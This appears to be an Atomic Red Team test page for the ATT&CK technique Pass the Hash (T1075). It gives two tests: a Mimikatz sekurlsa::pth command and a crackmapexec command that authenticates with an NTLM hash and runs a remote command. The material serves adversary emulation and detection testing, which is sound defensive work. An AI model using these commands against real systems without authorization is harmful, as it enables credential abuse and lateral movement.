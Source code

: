 # T1075 - Pass the Hash
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1075)
<blockquote>Pass the hash (PtH) is a method of authenticating as a user without having access to the user's cleartext password. This method bypasses standard authentication steps that require a cleartext password, moving directly into the portion of the authentication that uses the password hash. In this technique, valid password hashes for the account being used are captured using a Credential Access technique. Captured hashes are used with PtH to authenticate as that user. Once authenticated, PtH may be used to perform actions on local or remote systems. 

Windows 7 and higher with KB2871997 require valid domain user credentials or RID 500 administrator hashes. (Citation: NSA Spotting)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mimikatz Pass the Hash](#atomic-test-1---mimikatz-pass-the-hash)

- [Atomic Test #2 - crackmapexec Pass the Hash](#atomic-test-2---crackmapexec-pass-the-hash)


<br/>

## Atomic Test #1 - Mimikatz Pass the Hash
Note: must dump hashes first
[Reference](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth)

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | username | string | Administrator|
| domain | domain | string | atomic.local|
| ntlm | ntlm hash | string | cc36cf7a8514893efccd3324464tkg1a|


#### Run it with `command_prompt`! 
```
mimikatz # sekurlsa::pth /user:#{user_name} /domain:#{domain} /ntlm:#{ntlm}
```



<br/>
<br/>

## Atomic Test #2 - crackmapexec Pass the Hash
command execute with crackmapexec

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | username | string | Administrator|
| domain | domain | string | atomic.local|
| ntlm | command | string | cc36cf7a8514893efccd3324464tkg1a|
| command | command to execute | string | whoami|
| crackmapexec_exe | crackmapexec windows executable | Path | C:\CrackMapExecWin\crackmapexec.exe|


#### Dependencies
Description:
CrackMapExec executor must exist on disk at specified location (#{crackmapexec_exe})
Check Prereq Commands:
```if(Test-Path #{crackmapexec_exe}) { 0 } else { -1 }
 ```
Get Prereq Commands:
```Write-Host Automated installer not implemented yet, please install crackmapexec manually at this location: #{crackmapexec_exe}
```

#### Run it with `command_prompt`! 
```
crackmapexec #{domain} -u #{user_name} -H #{ntlm} -x #{command}
```



<br/>
